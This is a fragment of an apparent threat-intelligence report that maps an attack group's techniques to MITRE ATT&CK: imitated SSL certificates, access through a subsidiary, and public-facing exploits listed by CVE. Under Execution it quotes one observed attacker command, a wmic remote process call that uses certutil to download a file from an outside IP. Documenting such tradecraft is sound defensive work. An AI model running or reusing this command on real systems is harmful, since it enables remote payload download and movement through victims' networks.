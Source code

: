 

The attackers placed their own SSL certificates, which imitated legitimate ones. Examples: github.com, www.ibm.com, jquery.com, update.microsoft-support.net
		





Initial Access






			 T1199
		



			 Trusted Relationship
		



			 The group compromised a subsidiary and penetrated the target company's network through it
		





			 T1190
		



			 Exploit Public-Facing Application
		



The attackers used a public exploit to gain access to the infrastructure connected to the infrastructure of the target organization. Examples: CVE-2017-12149, CVE-2021-34473, CVE-2021-34523, CVE-2021-31207
		





Execution






			 T1047
		



			 Windows Management Instrumentation
		



The attackers used the wmic utility to execute commands on the hosts. Examples: C:\Windows\system32\cmd.exe /C wmic /node:"host" process call create "c:\windows\system32\cmd.exe /c certutil -urlcache -f -split http://42.99.116[.]14/ c:\windows\temp\MpKsl15169faf > c:\windows\temp\_1622775917806 2>&1"
		


